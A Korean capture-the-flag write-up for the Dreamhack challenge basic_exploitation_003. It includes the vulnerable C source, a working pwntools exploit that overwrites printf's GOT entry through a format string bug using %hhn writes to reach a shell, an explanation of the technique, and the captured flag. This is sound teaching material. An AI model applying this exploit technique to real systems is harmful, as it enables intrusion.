



# B3 · basic_exploitation_003

### 1. 문제 확인

`pwnable` 분류의 B3 문제. `sprintf(stack_buf, heap_buf)`에서 사용자 입력 `heap_buf`를 포맷 문자열로 그대로 넘기는 포맷 스트링 버그(FSB)가 있다. 32비트(i386), No PIE(0x8048000), Partial RELRO, 카나리 없음. 바이너리 안에 `system("/bin/sh")`를 실행하는 `get_shell`이 있다.

<p align="center">
  
</p>

### 2. 코드

```c
void get_shell() {
    system("/bin/sh");
}

int main() {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);      // ★ FSB (출력이 stack_buf로 감)
    printf("ECHO : %s\n", stack_buf);  // 이 printf가 방아쇠
    return 0;
}
```

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 13143)
e = ELF("./basic_exploitation_003")

get_shell  = e.symbols["get_shell"]   # 0x08048669
printf_got = e.got["printf"]          # 0x0804a010
get_shell = p32(get_shell)

payload  = p32(printf_got)            # %1$ -> printf_got[0]
payload += p32(printf_got + 1)        # %2$ -> printf_got[1]
payload += f"%{get_shell[0] - 8}c".encode() + b"%1$hhn"
payload += f"%{get_shell[1] - get_shell[0]}c".encode() + b"%2$hhn"

p.send(payload)
p.interactive()
```

### 4. printf GOT에 get_shell 주소를 쓴다

지금 시점은 "ECHO" `printf`가 **아직 실행되기 전**이다. 그래서 `printf@got`를 `get_shell` 주소로 덮어두면, 바로 다음 줄의 `printf` 호출이 `get_shell`으로 점프한다 → `system("/bin/sh")`.

- `printf@got`의 상위 2바이트는 아직 PLT 내부(`0x0804...`)를 가리켜 `get_shell`과 이미 같다. 그래서 **하위 2바이트만** `get_shell` 값(`0x8669`)으로 바꾸면 된다.
- 앞의 주소 2개(`p32(printf_got)`, `p32(printf_got+1)`)는 sprintf가 `stack_buf` 앞에 복사하고, 그 자리가 `%1$`/`%2$`라서 각각 `printf_got[0]`, `printf_got[1]`을 가리키게 된다.

### 5. 왜 1바이트씩 쓰는가

이 FSB의 출력은 stdout이 아니라 **작은 스택 버퍼** `stack_buf[0x90]`로 들어간다. `%c`로 출력한 글자 수만큼 sprintf가 이 버퍼에 쓴다.

- 2바이트를 한 번에 쓰려면 `0x8669`(= 34409) 글자를 출력해야 한다. 144바이트짜리 버퍼에 34409바이트를 쏟아부으면 스택이 박살나 죽는다.
- 1바이트씩 쓰면 각 바이트 값(`0x69`, `0x86`)만 맞추면 되고, 카운터는 누적이라 **총 출력이 가장 큰 바이트 `0x86`(= 134) 글자**로 끝난다. 스택을 적당히만 건드려 안전하다.

그래서 `%1$hhn` / `%2$hhn`로 1바이트씩 두 번 쓴다. 바이트 값이 오름차순(`0x69` → `0x86`)이라 누적 카운터로 깔끔하게 맞는다.

### 6. 실행 결과

<p align="center">
  
</p>

```text
DH{4e6e355c62249b2da3b566f0d575007e}
```
